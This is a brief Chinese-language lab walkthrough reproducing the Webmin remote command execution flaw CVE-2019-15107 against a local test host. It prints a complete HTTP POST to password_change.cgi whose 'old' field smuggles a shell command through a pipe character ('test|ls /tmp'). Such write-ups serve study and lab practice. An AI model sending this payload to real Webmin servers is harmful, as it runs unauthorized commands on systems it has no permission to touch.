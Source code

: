 **Webmin远程命令执行漏洞（CVE-2019-15107）**

查了一下，发现webmin的cve挺多的

打开网址

![image-20211009171535860](https://cd-1307445315.cos.ap-nanjing.myqcloud.com/CD%5Cimage-20211009171535860.png)

出现这个

随便输个账号密码然后抓包

抓取数据包，修改数据，利用poc进行验证

![image-20211009171843236](https://cd-1307445315.cos.ap-nanjing.myqcloud.com/CD%5Cimage-20211009171843236.png)



```
POST /password_change.cgi HTTP/1.1 
Host: 192.168.1.190:13619 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:79.0) Gecko/20100101 Firefox/79.0 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8 Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2 Accept-Encoding: gzip, deflate 
Content-Type: application/x-www-form-urlencoded 
Content-Length: 65 
Origin: https://192.168.1.190:13619 Connection: close Referer: https://192.168.1.190:13619/ 
Cookie: redirect=1; testing=1 
Upgrade-Insecure-Requests: 1 user=rootxx&pam=&expired=2&old=test|ls /tmp&new1=test2&new2=test2
```

![image-20200821155159221](https://cd-1307445315.cos.ap-nanjing.myqcloud.com/CD%5C3.png)

